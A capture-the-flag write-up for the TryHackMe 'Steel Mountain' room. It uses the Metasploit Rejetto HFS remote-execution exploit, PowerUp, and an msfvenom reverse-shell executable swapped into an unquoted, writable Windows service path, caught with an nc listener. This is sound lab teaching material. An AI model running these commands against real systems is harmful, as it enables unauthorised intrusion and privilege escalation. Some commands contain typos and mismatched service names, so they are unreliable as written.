








# [Steel Mountain](https://tryhackme.com/room/steelmountain)
# Recon

To begin, run `nmap -sC -sV -vv -oN nmap/init [IP_ADDR]` to identify any open ports or potentially vulnerable services. This scan reveals a HTTP server running, as well as Samba, NetBIOS and RPC.


*Fig I. The output of the nmap scan.*

The web server that’s running displays an “Employee of the Month” image. Viewing the source of this shows the image title is `“BillHarper.png”`. Navigating to port 8080, a file server GUI can be found.


*Fig II. The file server displayed on port 8080.*

To get more info on this particular file server, select the “HTTPFileServer 2.3” hyperlink to view the documentation. In the documentation, select the “Fork me on Github” link in the top right to identify the type of file server running - Rejetto.

# Exploitation

To search for known exploits, use `searchsploit rejetto 2.3` or directly search online. The following is identified via searchsploit.


*Fig III. List of available exploits via searchsploit.*

This particular task works with “Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)”.


*Fig IV. The Rejetto exploit used in this room.*

To run this in Metasploit, execute the following:

```bash
msfconsole
search 2014-6287
use
show options
```

<br/>To use the exploit, the following options need to be configured:

1. `RHOSTS`: The IP address of the target.
2. `RPORT`: 8080, our target is running on this port.
3. `LHOST`: IP address of attacker machine.

Once set, use `run` to launch the exploit and receive a Meterpreter session.


*Fig V. The shell obtained via the exploit.*

# Privilege Escalation

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) can be used to search for privilege escalation routes on Windows devices. To place this on the target, run `upload /path/to/powerup.ps1`. Once the upload is complete, run `load powershell` followed by `powershell_shell` in the Meterpreter session, this will allow PowerUp to be run.


*Fig VI. Commands to run PowerUp and all checks.*

This will output a list of services, for this task, focus on services which have “CanRestart” set to “True” and have an unquoted service path containing spaces like the example here where “Path” is set to a location containing spaces and not contained within quotes.


*Fig VII. The vulnerable service.*

The application directory for this service is writable, meaning the legitimate app can be swapped for a malicious one. The payload to do this can be created with `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=[IP_ADDR] LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

<br/>To replace the existing service, execute the following commands:

```bash
sc stop AdvancedSystemCareService9
copy ASCService.ee "C:\Program Files (x86)\IObit\AdvancedSystemCare\ASCService.exe"
```


*Fig VIII. The command to replace the vulnerable service executable.*

Now, start a listener on the attacking machine using `nc -nvlp 4443` and reboot the service on the target with `sc start AdvancedSystemCare9`. This should catch on the listener as `root`. Navigating to the administrators desktop and reading the file `“root.txt”` will reveal the flag for this challenge.